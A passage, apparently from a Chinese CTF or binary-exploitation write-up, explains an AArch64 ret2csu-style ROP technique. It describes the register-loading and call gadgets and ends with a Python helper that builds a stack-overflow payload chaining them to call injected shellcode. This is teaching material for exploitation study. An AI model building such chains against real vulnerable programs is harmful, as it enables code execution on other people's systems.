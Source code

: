 [![](assets/1703209924-8423314eae7442ac05747e6ef846bab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164910-cecc7158-9fdd-1.png)  
然后这里就是类似于 csu 的 gadget

[![](assets/1703209924-323a36973c3703f0bf3dee0bb24ed3f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164917-d34ee9b8-9fdd-1.png)  
这一段 LDP X19, X20, \[SP,#var\_s10\]  
意思是将 sp+0x10 处数据给 x19，sp+0x18 处数据给 0x20  
以此类推，后面的汇编表示的是：  
将 sp+0x20 处数据给 x21，sp+0x28 处数据给 0x22  
将 sp+0x30 处数据给 x23，sp+0x38 处数据给 0x24  
将 sp 处数据给 x29，sp+0x8 处数据给 x30  
RET ; 返回 x30 寄存器中存放的地址/PC  
这一段的作用就是赋值

[![](assets/1703209924-d66e8502c8331bcc127a09d1aa8872d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164929-da334b02-9fdd-1.png)  
然后这一段就是利用 x21，x22，x23，x24 分别向 x3，x2，x1，x0 赋值，然后跳转到 x3 的地址，然后比较 x19 与 x20，相等不跳转  
第一次 read 输入 shellcode，然后第二次用 csu 去调用相应的函数和 shellcode

```bash
def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl
```
